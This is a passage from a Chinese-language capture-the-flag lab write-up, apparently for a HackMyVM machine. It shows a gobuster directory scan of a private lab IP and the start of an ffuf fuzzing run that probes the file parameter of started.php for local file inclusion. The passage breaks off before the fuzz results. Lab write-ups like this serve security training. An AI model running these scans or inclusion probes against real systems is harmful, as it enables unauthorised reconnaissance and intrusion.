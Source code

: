 访问 `/company` 路由是一个网站的首页
![Pasted image 20241224124639](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241224124639.png)

查看源代码，发现提示
![Pasted image 20241224125230](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241224125230.png)
提示告诉我们有一个php文件，可以使用 `file` 参数进行文件包含
继续对 `/company` 路由进行目录扫描

```bash
┌──(root㉿kali)-[~/Desktop/hmv/blackwindow]
└─# gobuster dir -u http://192.168.56.23/company/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.23/company/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 323] [--> http://192.168.56.23/company/assets/]
/forms                (Status: 301) [Size: 322] [--> http://192.168.56.23/company/forms/]
/changelog.txt        (Status: 200) [Size: 1175]
/Readme.txt           (Status: 200) [Size: 222]
/.php                 (Status: 403) [Size: 278]
/started.php          (Status: 200) [Size: 42271]

```
扫描出来了一个 `started.php `
测试一下是否是这个php文件存在文件包含
尝试进行最简单的文件包含 发现没有回显。
### 2.3. FUZZ测试LFI
测试一下fuzz
```bash
┌──(root㉿kali)-[~/Desktop/hmv/blackwindow]
└─# ffuf -u http://192.168.56.23/company/started.php?file=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt |grep -v 'Size: 0'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.23/company/started.php?file=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```